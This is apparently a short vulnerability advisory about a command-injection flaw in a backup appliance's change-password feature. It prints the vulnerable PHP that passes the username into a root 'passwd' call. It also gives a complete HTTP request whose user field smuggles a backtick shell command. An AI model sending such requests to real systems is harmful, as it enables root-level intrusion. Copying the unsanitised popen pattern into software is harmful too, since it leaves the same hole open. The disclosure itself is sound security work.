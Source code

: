Code Execution via Change Password

Details

Setting the username as a system command like `sleep 20` will execute when the OS goes to change password.

Vulnerable Code /var/www/html/recoveryconsole/system/password_change.php:

function change_system_password($user, $current_root_pass, $new_user_pass, &$msg) {
        $status = -1;
        $res = trim(shell_exec('echo $UID'));
        if ($res == 0) {
                // running as root, no sudo needed for passwd command
                $handle = popen("passwd --stdin $user", 'w');
                fwrite($handle, "$new_user_pass\n");
                $status = pclose($handle);

Vulnerable Request:

POST /recoveryconsole/bpl/password.php?type=list&rx=8898009&ver=9.0.0&gcv=0 HTTP/1.1
Host: 10.10.10.89
Connection: close
Content-Length: 152
Origin: https://10.10.10.89
X-Requested-With: ShockwaveFlash/23.0.0.185
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
DNT: 1
Referer: https://10.10.10.89/recoveryconsole/bpria/bin/bpria.swf?vsn=9.0.0
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.8
Cookie: initial_tab_config=1; initial_tab_recover=2; SnapABugHistory=1#; _ga=GA1.4.400758861.1476511068; initial_tab_jobs=3; SnapABugRef=https%3A%2F%2F10.10.10.89%2Frecoveryconsole%2F%20; SnapABugVisit=12#1476513198

newpassword=unitrends2&auth=djA6ODkxNTJjYzYtNzdkYi00N2ZlLWFiMzEtNzJmMGVlZmU1MjkyOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA%3D%3D&password=unitrends1&user=`touch /tmp/dwightowned`;